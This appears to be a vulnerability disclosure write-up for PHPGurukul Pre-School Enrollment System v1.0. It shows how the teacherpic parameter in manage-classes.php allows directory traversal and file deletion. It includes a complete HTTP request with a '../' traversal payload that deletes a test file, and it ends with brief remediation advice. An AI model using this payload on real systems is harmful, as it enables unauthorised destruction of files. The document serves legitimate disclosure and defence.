 # PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability-2

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by  directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with teacherpic in the manage-classes.php file   
   ![1](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250423150403.png)   
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/2.png)
      
   Find the vulnerable function in the manage-classes.php article, manage-classes-delete
  
   ![3](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/3.png)
  
   Intercept the data packet and find the manage-classes.php?action=delete data packet. No problem parameter teacherpic was found.
   
   ![4](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/4.png)

   Change the tpic parameter in the data packet to the problematic parameter teacherpic 
   Transformed into attack payload  

    GET /Pre-School-Enrollment-System-PHP/preschool/admin/manage-classes.php?action=delete&&cid=6&&teacherpic=../../../../bbb.txt HTTP/1.1
    Host: localhost
    Sec-Fetch-Site: same-origin
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
    Sec-Fetch-Mode: navigate
    Accept-Encoding: gzip, deflate, br, zstd
    Cookie: PHPSESSID=qqnj1t0sdqqbv8qh5jrevaaln8
    sec-ch-ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
    Accept-Language: zh-CN,zh;q=0.9
    Upgrade-Insecure-Requests: 1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Referer: http://localhost/Pre-School-Enrollment-System-PHP/preschool/admin/manage-classes.php
    Sec-Fetch-Dest: document
    sec-ch-ua-mobile: ?0
    sec-ch-ua-platform: "Windows"

   Create bbb.txt test file in  D:\phpstudy_pro\WWW
       ![5](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/微信截图_20250423153628.png)   

   Send payload,
   ![6](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/6.png)
   bbb.txt file has been deleted   
   ![7](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/5.png)    
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   
